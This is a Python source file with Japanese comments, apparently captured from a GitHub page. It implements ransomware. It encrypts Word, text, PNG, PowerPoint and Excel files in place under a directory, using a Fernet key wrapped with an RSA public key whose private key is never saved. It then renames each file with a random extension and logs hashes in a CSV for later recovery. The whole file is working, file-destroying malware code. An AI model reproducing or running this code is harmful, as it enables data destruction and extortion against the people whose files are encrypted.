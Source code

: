 import sys
import os
import glob
import random
import string
import hashlib
import csv
from cryptography.fernet import Fernet
from cryptography.hazmat.primitives import serialization, asymmetric, hashes

def generate_RSA_key():
    """まだ存在しない場合は鍵を作成"""
    if not os.path.isfile("public_key.pem"):
        private_key = asymmetric.rsa.generate_private_key(key_size = 2048, public_exponent=65537)
        public_key = private_key.public_key()

        """公開鍵の書き出し"""
        with open("public_key.pem", "wb") as f:
            f.write(public_key.public_bytes(
                encoding=serialization.Encoding.PEM,
                format=serialization.PublicFormat.SubjectPublicKeyInfo
            ))
        
def generate_fernet_key():
    generate_RSA_key()
    """公開鍵の読み込み"""
    with open('public_key.pem', 'rb') as f:
        public_key = serialization.load_pem_public_key(f.read())
    
    """共通鍵の生成"""
    key = Fernet.generate_key()
    
    """データの暗号化"""
    ciphertext = public_key.encrypt(
        key,
        asymmetric.padding.OAEP(
            mgf=asymmetric.padding.MGF1(algorithm=hashes.SHA256()),
            algorithm=hashes.SHA256(),
            label=None
        )
    )
    with open('p.key','wb') as f:
        f.write(ciphertext)
    
    return key


def file2crypt(filepath,key):
    """パス指定したファイルを暗号化する"""
    
    with open(filepath, 'rb') as f:
        data = f.read()
        
    fernet = Fernet(key)
    encrypted = fernet.encrypt(data)
    
    with open(f'{filepath}', 'wb') as f:
        f.write(encrypted)
        
#ランダム文字列を作成する
def GetRandom(n):
    randlst = [random.choice(string.ascii_letters + string.digits + string.ascii_uppercase) for i in range(n)]
    return ''.join(randlst)

if os.path.isfile("fukugenn2.csv"):
    sys.exit()
    
#.docxファイルのファイル名を取得
path1 = 'dir/**/*.docx'
list1 = glob.glob(path1, recursive=True)

#.txtファイルのファイル名の取得
path2 = 'dir/**/*.txt'
list2 = glob.glob(path2, recursive=True)

#.pngファイルのファイル名を取得
path3 = 'dir/**/*.png'
list3 = glob.glob(path3, recursive=True)

#.pptxファイルのファイル名を取得
path4 = 'dir/**/*.pptx'
list4 = glob.glob(path4, recursive=True)

# #.xlsxファイルのファイル名を取得
path5 = 'dir/**/*.xlsx'
list5 = glob.glob(path5, recursive=True)


#空の辞書型の生成
mydict = {}

"""共通鍵の生成、書き出し"""
key = generate_fernet_key()

#暗号化の処理
for i in list1:
    with open(i,'rb') as file:
        file2crypt(i,key)
        fileData = file.read()
        hash_sha256 = hashlib.sha256(fileData).hexdigest()
        mydict[i] = hash_sha256
        
for i in list2:
    with open(i,'rb') as file:
        file2crypt(i,key)
        fileData = file.read()
        hash_sha256 = hashlib.sha256(fileData).hexdigest()
        mydict[i] = hash_sha256
        
for i in list3:
    with open(i,'rb') as file:
        file2crypt(i,key)
        fileData = file.read()
        hash_sha256 = hashlib.sha256(fileData).hexdigest()
        mydict[i] = hash_sha256
        
for i in list4:
    with open(i,'rb') as file:
        file2crypt(i,key)
        fileData = file.read()
        hash_sha256 = hashlib.sha256(fileData).hexdigest()
        mydict[i] = hash_sha256

for i in list5:
    with open(i,'rb') as file:
        file2crypt(i,key)
        fileData = file.read()
        hash_sha256 = hashlib.sha256(fileData).hexdigest()
        mydict[i] = hash_sha256
        
        
#拡張子を変更した処理
for file in list1:
    ren = GetRandom(5)
    os.rename(file,file + '.' + ren)

for file in list2:
    ren = GetRandom(5)
    os.rename(file,file + '.' + ren)
    
for file in list3:
    ren = GetRandom(5)
    os.rename(file,file + '.' + ren)

for file in list4:
    ren = GetRandom(5)
    os.rename(file,file + '.' + ren)

for file in list5:
    ren = GetRandom(5)
    os.rename(file,file + '.' + ren)
    
#辞書型のキーと値を入れ替える
mydict2 = {mydict[i]:i for i in mydict.keys()}

#csvファイルに辞書型を出力
with open('fukugenn2.csv','w') as f:
    writer = csv.writer(f)
    for k,v in mydict2.items():
        writer.writerow([k,v])

